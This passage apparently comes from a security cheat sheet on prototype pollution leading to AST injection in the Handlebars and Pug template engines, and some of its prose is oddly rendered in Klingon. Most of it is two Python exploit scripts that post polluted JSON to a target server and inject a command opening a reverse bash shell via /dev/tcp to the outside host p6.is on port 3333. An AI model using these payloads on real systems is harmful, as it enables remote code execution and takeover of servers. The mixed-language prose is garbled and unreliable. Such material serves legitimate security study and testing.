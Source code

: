 Python vItlhutlhlaH prototype pollution exploit Example:
```python
import requests

TARGET_URL = 'http://10.10.10.10:9090'

# make pollution
requests.post(TARGET_URL + '/vulnerable', json = {
"__proto__.type": "Program",
"__proto__.body": [{
"type": "MustacheStatement",
"path": 0,
"params": [{
"type": "NumberLiteral",
"value": "process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/p6.is/3333 0>&1'`)"
}],
"loc": {
"start": 0,
"end": 0
}
}]
})

# execute
requests.get(TARGET_URL)
```
#### Pug Vulnerability

Pug, vIghro' template engine, faces a similar risk of prototype pollution. Detailed information is available in the discussion on [AST Injection in Pug](https://blog.p6.is/AST-Injection/#Pug).

Example of prototype pollution in Pug:
```python
import requests

TARGET_URL = 'http://10.10.10.10:9090'

# make pollution
requests.post(TARGET_URL + '/vulnerable', json = {
"__proto__.block": {
"type": "Text",
"line": "process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/p6.is/3333 0>&1'`)"
}
})

# execute
requests.get(TARGET_URL)
```
### qo'wI'wI' jImej
